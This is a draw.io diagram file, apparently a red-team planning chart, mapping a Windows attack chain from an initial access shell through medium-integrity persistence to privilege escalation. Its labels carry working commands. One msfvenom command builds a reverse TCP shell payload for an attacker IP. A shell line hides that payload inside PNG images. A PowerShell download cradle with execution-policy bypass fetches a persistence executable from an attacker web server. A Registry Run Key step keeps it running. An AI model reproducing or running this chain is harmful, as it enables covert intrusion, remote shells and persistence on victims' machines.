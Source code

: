 <mxfile version="20.7.4" type="github">
  <diagram id="C5RBs43oDa-KdzZeNtuy" name="Overall">
    <mxGraphModel dx="3609" dy="807" grid="1" gridSize="10" guides="1" tooltips="1" connect="1" arrows="1" fold="1" page="1" pageScale="1" pageWidth="827" pageHeight="1169" math="0" shadow="0">
      <root>
        <mxCell id="WIyWlLk6GJQsqaUBKTNV-0" />
        <mxCell id="WIyWlLk6GJQsqaUBKTNV-1" parent="WIyWlLk6GJQsqaUBKTNV-0" />
        <mxCell id="WIyWlLk6GJQsqaUBKTNV-2" value="" style="rounded=0;html=1;jettySize=auto;orthogonalLoop=1;fontSize=11;endArrow=block;endFill=0;endSize=8;strokeWidth=1;shadow=0;labelBackgroundColor=none;edgeStyle=orthogonalEdgeStyle;entryX=0.5;entryY=0;entryDx=0;entryDy=0;" parent="WIyWlLk6GJQsqaUBKTNV-1" source="WIyWlLk6GJQsqaUBKTNV-3" target="G-sO2mh2Iyi2BEA4O4LV-14" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="WIyWlLk6GJQsqaUBKTNV-3" value="Initial Access Shell" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#00CC00;" parent="WIyWlLk6GJQsqaUBKTNV-1" vertex="1">
          <mxGeometry x="160" y="30" width="120" height="40" as="geometry" />
        </mxCell>
        <mxCell id="WIyWlLk6GJQsqaUBKTNV-4" value="" style="rounded=0;html=1;jettySize=auto;orthogonalLoop=1;fontSize=11;endArrow=block;endFill=0;endSize=8;strokeWidth=1;shadow=0;labelBackgroundColor=none;edgeStyle=orthogonalEdgeStyle;" parent="WIyWlLk6GJQsqaUBKTNV-1" source="WIyWlLk6GJQsqaUBKTNV-6" target="WIyWlLk6GJQsqaUBKTNV-10" edge="1">
          <mxGeometry y="20" relative="1" as="geometry">
            <mxPoint as="offset" />
          </mxGeometry>
        </mxCell>
        <mxCell id="WIyWlLk6GJQsqaUBKTNV-5" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;html=1;jettySize=auto;orthogonalLoop=1;fontSize=11;endArrow=block;endFill=0;endSize=8;strokeWidth=1;shadow=0;labelBackgroundColor=none;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" parent="WIyWlLk6GJQsqaUBKTNV-1" source="WIyWlLk6GJQsqaUBKTNV-6" target="G-sO2mh2Iyi2BEA4O4LV-17" edge="1">
          <mxGeometry y="10" relative="1" as="geometry">
            <mxPoint as="offset" />
            <mxPoint x="370" y="120" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="WIyWlLk6GJQsqaUBKTNV-6" value="Establish Medium IL Persistance" style="rhombus;whiteSpace=wrap;html=1;shadow=0;fontFamily=Helvetica;fontSize=12;align=center;strokeWidth=1;spacing=6;spacingTop=-4;" parent="WIyWlLk6GJQsqaUBKTNV-1" vertex="1">
          <mxGeometry x="135" y="170" width="170" height="100" as="geometry" />
        </mxCell>
        <mxCell id="WIyWlLk6GJQsqaUBKTNV-8" value="" style="rounded=0;html=1;jettySize=auto;orthogonalLoop=1;fontSize=11;endArrow=block;endFill=0;endSize=8;strokeWidth=1;shadow=0;labelBackgroundColor=none;edgeStyle=orthogonalEdgeStyle;entryX=0.5;entryY=0;entryDx=0;entryDy=0;" parent="WIyWlLk6GJQsqaUBKTNV-1" source="WIyWlLk6GJQsqaUBKTNV-10" target="c0Sctn81WB5nrNk0CtNy-44" edge="1">
          <mxGeometry x="0.333" y="20" relative="1" as="geometry">
            <mxPoint as="offset" />
          </mxGeometry>
        </mxCell>
        <mxCell id="WIyWlLk6GJQsqaUBKTNV-10" value="Escalate Privileges&lt;br&gt;to High IL" style="rhombus;whiteSpace=wrap;html=1;shadow=0;fontFamily=Helvetica;fontSize=12;align=center;strokeWidth=1;spacing=6;spacingTop=-4;" parent="WIyWlLk6GJQsqaUBKTNV-1" vertex="1">
          <mxGeometry x="140" y="340" width="160" height="110" as="geometry" />
        </mxCell>
        <mxCell id="WIyWlLk6GJQsqaUBKTNV-11" value="End" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;" parent="WIyWlLk6GJQsqaUBKTNV-1" vertex="1">
          <mxGeometry x="160" y="980" width="120" height="40" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-15" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" parent="WIyWlLk6GJQsqaUBKTNV-1" source="G-sO2mh2Iyi2BEA4O4LV-14" target="WIyWlLk6GJQsqaUBKTNV-6" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-14" value="Create Medium IL Tools Directory" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#00CC00;" parent="WIyWlLk6GJQsqaUBKTNV-1" vertex="1">
          <mxGeometry x="160" y="90" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-17" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" parent="WIyWlLk6GJQsqaUBKTNV-1" source="G-sO2mh2Iyi2BEA4O4LV-17" target="P6aCfQ930mBBJoiv-hOj-9" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-17" value="Update Persistance Payload Code" style="swimlane;fillColor=#FF6666;" parent="WIyWlLk6GJQsqaUBKTNV-1" vertex="1">
          <mxGeometry x="470" y="30" width="1130" height="140" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-19" value="Pers_Medium.cpp" style="swimlane;fontStyle=5;childLayout=stackLayout;horizontal=1;startSize=30;horizontalStack=0;resizeParent=1;resizeParentMax=0;resizeLast=0;collapsible=1;marginBottom=0;fillColor=#FF6666;" parent="G-sO2mh2Iyi2BEA4O4LV-17" vertex="1">
          <mxGeometry x="20" y="40" width="150" height="90" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-21" value="Medium IL Tools Directory&#xa;(reverse_9001.exe / &#xa;reverse_9002.exe)" style="text;strokeColor=none;fillColor=#FF6666;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;" parent="G-sO2mh2Iyi2BEA4O4LV-19" vertex="1">
          <mxGeometry y="30" width="150" height="60" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-23" value="reverse_9001.cpp&#xa;reverse_9002.cpp" style="swimlane;fontStyle=5;childLayout=stackLayout;horizontal=1;startSize=30;horizontalStack=0;resizeParent=1;resizeParentMax=0;resizeLast=0;collapsible=1;marginBottom=0;fillColor=#FF6666;" parent="G-sO2mh2Iyi2BEA4O4LV-17" vertex="1">
          <mxGeometry x="200" y="40" width="150" height="70" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-25" value="Medium IL Tools Directory&#xa;(9001.png / 9002.png)" style="text;strokeColor=none;fillColor=#FF6666;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;" parent="G-sO2mh2Iyi2BEA4O4LV-23" vertex="1">
          <mxGeometry y="30" width="150" height="40" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-30" value="9001.raw&#xa;9002.raw" style="swimlane;fontStyle=5;childLayout=stackLayout;horizontal=1;startSize=30;horizontalStack=0;resizeParent=1;resizeParentMax=0;resizeLast=0;collapsible=1;marginBottom=0;shadow=0;fillColor=#FF6666;" parent="G-sO2mh2Iyi2BEA4O4LV-17" vertex="1">
          <mxGeometry x="400" y="40" width="140" height="90" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-31" value="Attacker IP" style="text;strokeColor=none;fillColor=#FF6666;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;shadow=0;" parent="G-sO2mh2Iyi2BEA4O4LV-30" vertex="1">
          <mxGeometry y="30" width="140" height="30" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-32" value="Port (9001 / 9002)" style="text;strokeColor=none;fillColor=#FF6666;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;shadow=0;" parent="G-sO2mh2Iyi2BEA4O4LV-30" vertex="1">
          <mxGeometry y="60" width="140" height="30" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-37" value="msfvenom -a x64 --platform Windows -p windows/x64/shell_reverse_tcp -n 1800 --pad-nops LHOST=IP LPORT=Port -f raw EXITFUNC=thread &amp;gt; port#.raw" style="shape=document;whiteSpace=wrap;html=1;boundedLbl=1;fillColor=#FF6666;" parent="G-sO2mh2Iyi2BEA4O4LV-17" vertex="1">
          <mxGeometry x="550" y="60" width="570" height="50" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-57" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0.5;entryY=0;entryDx=0;entryDy=0;" parent="WIyWlLk6GJQsqaUBKTNV-1" source="G-sO2mh2Iyi2BEA4O4LV-49" target="P6aCfQ930mBBJoiv-hOj-24" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-49" value="Stage Persistance Payloads" style="swimlane;shadow=0;fillColor=#FF6666;" parent="WIyWlLk6GJQsqaUBKTNV-1" vertex="1">
          <mxGeometry x="470" y="460" width="690" height="110" as="geometry">
            <mxRectangle x="480" y="340" width="70" height="30" as="alternateBounds" />
          </mxGeometry>
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-39" value="Pers_Medium.exe" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#FF6666;" parent="G-sO2mh2Iyi2BEA4O4LV-49" vertex="1">
          <mxGeometry x="40" y="50" width="110" height="40" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-51" value="reverse_9001.exe" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#FF6666;" parent="G-sO2mh2Iyi2BEA4O4LV-49" vertex="1">
          <mxGeometry x="180" y="50" width="110" height="40" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-53" value="9001.png" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#FF6666;" parent="G-sO2mh2Iyi2BEA4O4LV-49" vertex="1">
          <mxGeometry x="430" y="50" width="110" height="40" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-54" value="9002.png" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#FF6666;" parent="G-sO2mh2Iyi2BEA4O4LV-49" vertex="1">
          <mxGeometry x="560" y="50" width="110" height="40" as="geometry" />
        </mxCell>
        <mxCell id="kM2FHF2urjBJhsgAb-iy-2" value="reverse_9002.exe" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#FF6666;" parent="G-sO2mh2Iyi2BEA4O4LV-49" vertex="1">
          <mxGeometry x="310" y="50" width="110" height="40" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-16" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" parent="WIyWlLk6GJQsqaUBKTNV-1" source="P6aCfQ930mBBJoiv-hOj-9" target="G-sO2mh2Iyi2BEA4O4LV-49" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-9" value="Compile Persistance Payloads" style="swimlane;whiteSpace=wrap;html=1;strokeColor=#FFFFFF;fillColor=#FF6666;" parent="WIyWlLk6GJQsqaUBKTNV-1" vertex="1">
          <mxGeometry x="470" y="230" width="880" height="160" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-35" value="Embed MSFVenmon Payload Into png" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#FF6666;" parent="P6aCfQ930mBBJoiv-hOj-9" vertex="1">
          <mxGeometry x="255" y="40" width="160" height="50" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-38" value="cp original.png combined.png; cat port#.raw &amp;gt;&amp;gt; Port#.png" style="shape=document;whiteSpace=wrap;html=1;boundedLbl=1;fillColor=#FF6666;" parent="P6aCfQ930mBBJoiv-hOj-9" vertex="1">
          <mxGeometry x="440" y="40" width="290" height="50" as="geometry" />
        </mxCell>
        <mxCell id="kM2FHF2urjBJhsgAb-iy-1" value="" style="group" parent="P6aCfQ930mBBJoiv-hOj-9" vertex="1" connectable="0">
          <mxGeometry x="70" y="30" width="140" height="120" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-12" value="Compile EXE&#39;s" style="swimlane;fontStyle=0;childLayout=stackLayout;horizontal=1;startSize=30;horizontalStack=0;resizeParent=1;resizeParentMax=0;resizeLast=0;collapsible=1;marginBottom=0;whiteSpace=wrap;html=1;strokeColor=#000000;fillColor=#FF6666;" parent="kM2FHF2urjBJhsgAb-iy-1" vertex="1">
          <mxGeometry width="140" height="90" as="geometry">
            <mxRectangle width="120" height="30" as="alternateBounds" />
          </mxGeometry>
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-13" value="Pers_Medium.cpp" style="text;strokeColor=none;fillColor=#FF6666;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;whiteSpace=wrap;html=1;" parent="P6aCfQ930mBBJoiv-hOj-12" vertex="1">
          <mxGeometry y="30" width="140" height="30" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-14" value="reverse_9001.cpp" style="text;strokeColor=none;fillColor=#FF6666;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;whiteSpace=wrap;html=1;" parent="P6aCfQ930mBBJoiv-hOj-12" vertex="1">
          <mxGeometry y="60" width="140" height="30" as="geometry" />
        </mxCell>
        <mxCell id="kM2FHF2urjBJhsgAb-iy-0" value="reverse_9002.cpp" style="text;strokeColor=none;fillColor=#FF6666;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;whiteSpace=wrap;html=1;" parent="kM2FHF2urjBJhsgAb-iy-1" vertex="1">
          <mxGeometry y="90" width="140" height="30" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-24" value="Execute Persistence Payloads" style="swimlane;whiteSpace=wrap;html=1;strokeColor=#FFFFFF;fillColor=#00CC00;" parent="WIyWlLk6GJQsqaUBKTNV-1" vertex="1">
          <mxGeometry x="470" y="596" width="910" height="344" as="geometry">
            <mxRectangle x="470" y="616" width="210" height="30" as="alternateBounds" />
          </mxGeometry>
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-5" value="Download Pers_Medium.exeto Medium IL Tools directory." style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#00CC00;" parent="P6aCfQ930mBBJoiv-hOj-24" vertex="1">
          <mxGeometry x="35" y="45" width="120" height="80" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-7" value="powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -c &quot;IEX(New-Object Net.WebClient).downloadFile(&#39;http://[IP]:[web server port]/Pers_Medium.exe&#39;,&#39;C:\Path\file.ext&#39;)&quot;" style="shape=document;whiteSpace=wrap;html=1;boundedLbl=1;fillColor=#00CC00;" parent="P6aCfQ930mBBJoiv-hOj-24" vertex="1">
          <mxGeometry x="170" y="45" width="570" height="50" as="geometry" />
        </mxCell>
        <mxCell id="P7n5YuG6-lRFGP6FSJ7v-0" value="Execute Pers_Medium.exe" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#00CC00;" parent="P6aCfQ930mBBJoiv-hOj-24" vertex="1">
          <mxGeometry x="190" y="135" width="120" height="50" as="geometry" />
        </mxCell>
        <mxCell id="P7n5YuG6-lRFGP6FSJ7v-1" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.438;exitY=0.997;exitDx=0;exitDy=0;exitPerimeter=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" parent="P6aCfQ930mBBJoiv-hOj-24" source="G-sO2mh2Iyi2BEA4O4LV-5" target="P7n5YuG6-lRFGP6FSJ7v-0" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-1" value="Execute reverse_9001.exe" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=none;strokeColor=#00CC00;" parent="P6aCfQ930mBBJoiv-hOj-24" vertex="1">
          <mxGeometry x="590" y="164" width="120" height="50" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-5" value="Read Payload From 9001.png" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=none;strokeColor=#00CC00;" parent="P6aCfQ930mBBJoiv-hOj-24" vertex="1">
          <mxGeometry x="760" y="164" width="120" height="50" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-7" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;dashed=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;" parent="P6aCfQ930mBBJoiv-hOj-24" source="P6aCfQ930mBBJoiv-hOj-1" target="P6aCfQ930mBBJoiv-hOj-5" edge="1">
          <mxGeometry relative="1" as="geometry">
            <mxPoint x="590" y="125" as="sourcePoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-6" value="Read Payload From 9002.png" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=none;strokeColor=#00CC00;" parent="P6aCfQ930mBBJoiv-hOj-24" vertex="1">
          <mxGeometry x="760" y="274" width="120" height="50" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-8" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;dashed=1;entryX=0;entryY=0.5;entryDx=0;entryDy=0;exitX=1;exitY=0.5;exitDx=0;exitDy=0;" parent="P6aCfQ930mBBJoiv-hOj-24" source="kM2FHF2urjBJhsgAb-iy-3" target="P6aCfQ930mBBJoiv-hOj-6" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-26" value="Registry&lt;br&gt;Run Key" style="shape=trapezoid;perimeter=trapezoidPerimeter;whiteSpace=wrap;html=1;fixedSize=1;strokeColor=#000000;fillColor=#00CC00;" parent="P6aCfQ930mBBJoiv-hOj-24" vertex="1">
          <mxGeometry x="370" y="125" width="120" height="40" as="geometry" />
        </mxCell>
